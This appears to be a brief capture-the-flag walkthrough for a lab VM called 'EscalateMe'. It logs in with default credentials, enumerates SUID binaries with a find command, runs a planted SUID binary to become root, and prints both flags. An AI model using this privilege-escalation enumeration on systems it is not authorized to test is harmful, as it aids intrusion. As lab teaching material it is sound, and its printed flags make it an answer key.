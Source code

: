 # 🧑‍💻 CTF Walkthrough: EscalateMe

## Environment
- OS: Ubuntu 20.04
- User: `ctfuser`
- Goal: Read `/root/root.txt`

---

## 🔑 Step 1: Login to the VM

```
Username: ctfuser
Password: ctfuser
```

---

## 📁 Step 2: Grab the User Flag

```bash
cat ~/user.txt
```

✅ Output:
```
FLAG{you_got_a_shell}
```

---

## 🔍 Step 3: Check for SUID Binaries

```bash
find / -perm -u=s -type f 2>/dev/null
```

Expected output:
```
/usr/local/bin/getroot
```

---

## ⚙️ Step 4: Use the SUID Binary

```bash
/usr/local/bin/getroot
```

Check:
```bash
whoami
```

✅ Output:
```
root
```

---

## 🏁 Step 5: Read the Root Flag

```bash
cat /root/root.txt
```

🎉 Output:
```
FLAG{you_got_root_access}
```

---

## ✅ Summary
```bash
cat ~/user.txt
find / -perm -u=s -type f 2>/dev/null
/usr/local/bin/getroot
whoami
cat /root/root.txt
```
